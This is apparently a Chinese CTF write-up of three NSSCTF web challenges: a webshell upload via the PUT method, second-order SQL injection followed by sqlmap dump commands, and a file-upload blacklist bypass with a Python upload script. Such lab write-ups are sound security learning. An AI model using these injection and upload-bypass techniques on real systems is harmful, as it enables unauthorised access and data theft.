 #### Round #1

##### basic_check

题目：https://www.nssctf.cn/problem/2199

一个页面内什么都没有，先扫一下目录和可用的请求类型。使用curl的具体命令为：

```shell
curl -X OPTIONS http://example.com -i
```

这道题支持PUT请求

> PUT请求如果URI不存在，则要求服务器根据**请求创建资源**，如果存在，服务器就接受请求内容，并修改URI资源的原始版本。

所以我们可以通过PUT请求传一个一句话木马即可拿到访问权限。

##### sql_by_sql

题目：https://www.nssctf.cn/problem/2200

参考：https://www.cnblogs.com/jackie-lee/p/16124022.html

发现可以注册用户，考虑二次注入。先注册一个amin' --+的恶意用户，再修改密码，这样admin的密码就被改成了我们的输入。在主页发现注入点，需要使用布尔盲注，尝试sqlmap自动化解决。一开始没注成功，把level提高到3成功了。POC如下：

```shell
sqlmap -u "http://node4.anna.nssctf.cn:28513/query" --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" --level 3
// 这里的链接：/query data：id=1和cookie的内容用burp抓包就可以看到，即为sqlmap找到正确的注入点
sqlmap -u "http://node4.anna.nssctf.cn:28513/query" --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" --tables
// 这里是确定注入点后使用--tables参数让sqlmap读取数据库的表名
sqlmap -u http://node4.anna.nssctf.cn:28513/query --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" -T "flag" --columns
// 这里用-T指定数据表后使用--columns参数让sqlmap读取数据库的列名
sqlmap -u http://node4.anna.nssctf.cn:28513/query --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" -T "flag" -C "flag" --dump
// 这里打印flag表flag列的内容，得到flag
```

#### Round #2

##### php签到

题目：https://www.nssctf.cn/problem/4280

参考：https://www.anquanke.com/post/id/253383

一道有黑名单的文件上传题，php和phtml肯定是不能直接上传的，考虑文件解析漏洞，发现上传1.php/.可以实现绕过，解析原理应该是文件名提取是最后一个/和.的中间部分，文件后缀提取的是最后一个.后面的部分，但是在操作系统中这种文件名不符合规范，所以/.在传入成功之后会被删除，上传代码为

```python
import requests

url = "http://node5.anna.nssctf.cn:28295"
file_content = "<?php phpinfo();?>'"
file = {"file": ("1.php%2f.", file_content)}
response = requests.post(url, files=file)
print(response.text)
```

之后访问1.php就可以查看phpinfo的内容，在其中找到flag。
